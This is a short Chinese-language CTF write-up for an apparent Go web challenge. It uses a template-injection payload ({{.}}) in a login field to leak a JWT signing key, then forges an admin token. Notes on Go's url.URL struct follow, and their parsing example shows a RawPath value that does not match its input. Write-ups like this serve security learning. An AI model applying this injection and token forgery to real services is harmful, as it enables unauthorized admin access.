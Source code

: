 大致审一下，我们需要一个is_admin==True的jwt即可拿flag

注意到root_handler在处理登录信息时用到了template，尝试ssti

```
/regist -> /auth -> /
id={{.}}&pw=ame
```

得到jwt和key

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6Int7Ln19IiwiaXNfYWRtaW4iOmZhbHNlfQ.0Lz_3fTyhGxWGwZnw3hM_5TzDfrk0oULzLWF4rRfMss
```

```
this_is_f4Ke_key
# 赵总都没改docker
```

jwt.io改is_admin为true，到/flag即可拿flag了

## url.URL结构体

https://www.ipeapea.cn/post/go-url/

```go
type URL struct {
	Scheme      string    // 协议
	Opaque      string    // 如果是opaque格式，那么此字段存储有值
	User        *Userinfo // 用户和密码信息
	Host        string    // 主机地址[:端口]
	Path        string    // 路径
	RawPath     string    // 如果Path是从转移后的路径解析的，那么RawPath会存储原始值，否则为空，见后面详解
	ForceQuery  bool      // 即便RawQuery为空，path结尾也有?符号
	RawQuery    string    // ?后面query内容
	Fragment    string    // #后面锚点信息
	RawFragment string    // 与RawPath含义一致
}

type Userinfo struct {
	username    string
	password    string
	passwordSet bool
}
```

示例：

```go
uStr := "http://root:password@localhost:28080/home/login?id=1&name=foo#fragment"
u, _ := url.Parse(uStr)
```

解析结果

```json
{
 "Scheme": "http",
 "Opaque": "",
 "User": {},
 "Host": "localhost:28080",
 "Path": "/home/login",
 "RawPath": "/home%2flogin",
 "ForceQuery": false,
 "RawQuery": "id=1\u0026name=foo",
 "Fragment": "fragment",
 "RawFragment": ""
}
```